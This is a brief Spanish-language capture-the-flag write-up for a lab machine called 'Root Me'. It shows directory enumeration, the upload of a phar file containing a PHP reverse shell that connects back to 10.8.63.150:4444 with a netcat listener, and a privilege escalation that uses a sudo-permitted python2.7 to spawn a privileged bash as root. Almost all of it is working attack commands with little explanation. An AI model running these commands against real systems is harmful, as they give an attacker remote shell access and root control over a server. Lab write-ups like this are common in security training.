

# Root Me

Gobuster -> /panel y /uploads

subimos archivo phar con revshell
`<?php exec("bash -c 'bash -i >&/dev/tcp/10.8.63.150/4444 0>&1'"); ?>`
`nc -nvlp 4444`
**www-data**

A nivel de Sudoers se puede ejecutar *python2.7*
`python2.7 -c 'import os; os.execl("/bin/bash", "sh", "-p")'`
"/bin/bash" : provee el PATH
"sh" : ejecuta el comando
"-p" : parámetro para ejecutar bash privilegiada
**root**
